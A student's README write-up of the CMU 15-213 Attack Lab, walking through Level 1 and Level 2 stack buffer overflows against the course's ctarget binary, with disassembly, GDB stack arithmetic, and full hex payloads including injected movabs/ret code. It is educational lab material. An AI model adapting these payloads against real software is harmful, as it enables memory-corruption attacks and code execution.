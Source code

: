 # Lab 3: Attack Lab

This lab explores classic stack buffer overflows and return-oriented programming (ROP) using the provided Linux x86-64 targets.

---

## Environment Setup

- Same approach as Lab 2 ([lab2/README.md](cci:7://file:///Users/olegleyzerov/CascadeProjects/cmu-15213-labs/lab2/README.md:0:0-0:0)): run a Linux x86-64 userland via Docker on Apple Silicon and mount the working directory.
- Example:
```bash
docker run --rm -it --platform linux/amd64 -v .:/work ubuntu:20.04 bash
apt-get update
apt-get install -y binutils gdb make python3
```

---

## Tools

- `objdump -d <bin>` for disassembly
- `objdump -s -j .rodata <bin>` to inspect constants
- `gdb` for dynamic inspection
- `hex2raw` to convert hex-encoded payloads to raw input

---

## Level 1 (ctarget): Call touch1 via Stack Buffer Overflow

### Vulnerability recap
Buffer overflows arise when reading user input into a fixed-size stack buffer without length validation. By overflowing the buffer, we can overwrite the saved return address and redirect control flow.

### Recon
1. Disassemble the target:
```bash
objdump -d ctarget > ctarget.d
```

2. Find `getbuf` stack allocation (40 bytes):
```
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28      subq $0x28, %rsp    ; 0x28 = 40 bytes
```

3. Find `touch1` entry address:
```
00000000004017c0 <touch1>:
  4017c0: 48 83 ec 08      subq $0x8, %rsp
```

### Plan
- Fill 40 bytes to occupy the local buffer in `getbuf`.
- Overwrite the saved return address with the little-endian address of `touch1` (`0x4017c0` → bytes `C0 17 40 00 00 00 00 00` on x86-64).
- Feed the raw payload to `ctarget`.

### Payload (hex)
- 40 bytes of filler, then the 8-byte return address:
```
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
50 51 52 53 54 55 56 57 58 59
C0 17 40 00 00 00 00 00
```

### Execution
```bash
# Convert hex to raw and pipe to the target
./hex2raw < ctarget.11.txt | ./ctarget -q
```

Output:
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
  user id  bovik
  course   15213-f15
  lab      attacklab
  result   1:PASS:0xffffffff:ctarget:1:50 51 ... C0 17 40 00 00 00 00 00
```

### Notes
- Stack frame math: 40 bytes for buffer → overwrite saved `%rbp` and then return address.
- Little-endian means the lowest-order byte of the address comes first in memory.

---

## Level 2 (ctarget): Inject code to call touch2(cookie)

### Goal
Call `touch2` while passing the 64-bit-extended cookie value as the first argument in `%rdi`.

### Why this differs from Level 1
Level 1 only needed a direct jump to `touch1` by overwriting the saved return address. For `touch2`, we must set up the argument register `%rdi` first. We’ll inject a few bytes of code into the stack buffer that:

1. Moves the cookie into `%rdi`.
2. Executes `ret`, so control transfers to `touch2`, whose address we place on the stack right after our overwritten return address.

### GDB recon (stack addresses)
- At function entry (break on `getbuf`):
  - `%rsp` = e.g., `0x5561dca0`
  - `&buf`  = e.g., `0x5561dc78`
- Distance: `0x5561dca0 - 0x5561dc78 = 0x28` (40 bytes)
  - Bytes 0..39: fill the buffer
  - Bytes 40..47: overwrite saved return address
  - Bytes 48..55: next 8 bytes popped by our injected `ret`

These values come from a live GDB run and show the classic 40-byte local array in `getbuf`.

### Injected code (x86-64)
- Set `%rdi` to cookie using `movabs` and then `ret`:
  - `movabs $COOKIE, %rdi` → opcode bytes: `48 BF <imm64>` (10 bytes total)
  - `ret` → `C3` (1 byte)

### Payload layout (little-endian)
1) Injected code in `buf`:
   - `48 BF <cookie 8 bytes> C3`
2) Padding with NOPs (`90`) to reach 40 bytes total so we land exactly at the saved return address overwrite.
3) Overwrite saved return address with `&buf` (8 bytes) so that `ret` from `getbuf` jumps into our injected code.
4) Next 8 bytes: address of `touch2` so our injected `ret` transfers to `touch2` with `%rdi` already set.

Byte-count sanity check:
- Code: 10 (movabs) + 1 (ret) = 11 bytes
- Padding: 29 bytes of `90` → 11 + 29 = 40
- Overwritten RA: 8 bytes (`&buf`)
- `touch2` address: 8 bytes
- Total payload length: 56 bytes

### Building the payload
Replace placeholders with your actual values:
- Cookie (from `cookie.txt`), e.g., `0x59b997fa` → use 64-bit immediate `0x0000000059b997fa`
- `&buf` (from GDB), e.g., `0x5561dc78` → bytes `78 DC 61 55 00 00 00 00`
- `touch2` address (from `objdump -d ctarget`), e.g., `0x4019a9` → bytes `A9 19 40 00 00 00 00 00`

Skeleton in hex (space-separated, for `hex2raw`):
```
48 BF FA 97 B9 59 00 00 00 00 C3
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90
78 DC 61 55 00 00 00 00
A9 19 40 00 00 00 00 00
```

Notes:
- The first line encodes `movabs $0x0000000059b997fa, %rdi; ret` (example cookie shown). Substitute your cookie bytes.
- The three lines of `90` are 29 total NOPs to reach 40 bytes before the return address overwrite.
- The last two lines are `&buf` (overwrite RA) and `touch2` (target of the injected `ret`).

### Execute
```bash
./hex2raw < ctarget.12.txt | ./ctarget -q
```

### Reflections / Tips
- Docker on Apple Silicon can prevent GDB from accessing registers due to the emulation layer. A Linux VM with proper debugging support (e.g., GitHub Codespaces) works smoothly.
- Always verify `&buf` and the exact `touch2` address in your current environment. ASLR is typically disabled for the lab binaries, but confirm within your session.
- Counting bytes and maintaining little-endian order is critical for reliability.

---

## Next Steps

There are four more assignments focusing on:
- Crafting returns to other `touch*` routines (with argument setup)
- Chaining gadgets for ROP to bypass limited direct injections
- Understanding calling conventions and stack discipline under attack scenarios

I’ll proceed to:
1) Document Level 2 (calling `touch2` with correct data).  
2) Document Level 3 (`touch3` with the cookie).  
3) ROP levels for `rtarget` (control flow with gadgets).  
4) Add tips for using `gdb` (`disas`, `x/gx`, `info frame`, `ni/si`) and notes on ASLR/canaries if relevant to the target build.
